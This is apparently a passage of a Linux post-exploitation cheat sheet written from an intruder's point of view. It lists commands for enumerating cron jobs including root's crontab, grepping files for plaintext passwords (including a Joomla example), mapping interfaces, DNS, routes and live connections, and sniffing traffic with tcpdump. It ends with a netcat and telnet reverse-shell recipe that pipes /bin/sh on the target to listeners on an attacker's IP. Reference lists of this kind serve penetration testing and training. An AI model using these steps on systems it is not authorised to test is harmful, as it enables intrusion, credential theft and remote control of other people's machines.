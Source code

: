 ### WHAT JOBS ARE SCHEDULED?
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- cat /etc/cron*
- cat /etc/at.allow
- cat /etc/at.deny
- cat /etc/cron.allow
- cat /etc/cron.deny
- cat /etc/crontab
- cat /etc/anacrontab
- cat /var/spool/cron/crontabs/root
## COMMUNICATIONS & NETWORKING
### ANY PLAIN TEXT USERNAMES AND/OR PASSWORDS?
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" Joomla
### WHAT NIC(S) DOES THE SYSTEM HAVE? IS IT CONNECTED TO ANOTHER NETWORK?
- /sbin/ifconfig -a
- cat /etc/network/interfaces
- cat /etc/sysconfig/network
### WHAT ARE THE NETWORK CONFIGURATION SETTINGS? WHAT CAN YOU FIND OUT ABOUT THIS NETWORK? DHCP SERVER? DNS SERVER? GATEWAY?
- cat /etc/resolv.conf
- cat /etc/sysconfig/network
- cat /etc/networks
- iptables -L
- hostname
- dnsdomainname
### WHAT OTHER USERS & HOSTS ARE COMMUNICATING WITH THE SYSTEM?
- lsof -i
- lsof -i :80
- grep 80 /etc/services
- netstat -antup
- netstat -antpx
- netstat -tulpn
- chkconfig --list
- chkconfig --list | grep 3:on
- last
- w
### WHATS CACHED? IP AND/OR MAC ADDRESSES
- arp -e
- route
- /sbin/route -nee
### IS PACKET SNIFFING POSSIBLE? WHAT CAN BE SEEN? LISTEN TO LIVE TRAFFIC
- tcpdump  tcp  dst 192.168.1.7 80 and tcp  dst 10.5.5.252 21
### HAVE YOU GOT A SHELL? CAN YOU INTERACT WITH THE SYSTEM?
- nc -lvp 4444 Attacker. Input (Commands)
- nc -lvp 4445 Attacker. Ouput (Results)
- telnet [atackers  ip] 44444 | /bin/sh | [local ip] 44445 On the targets system. Use the attackers IP!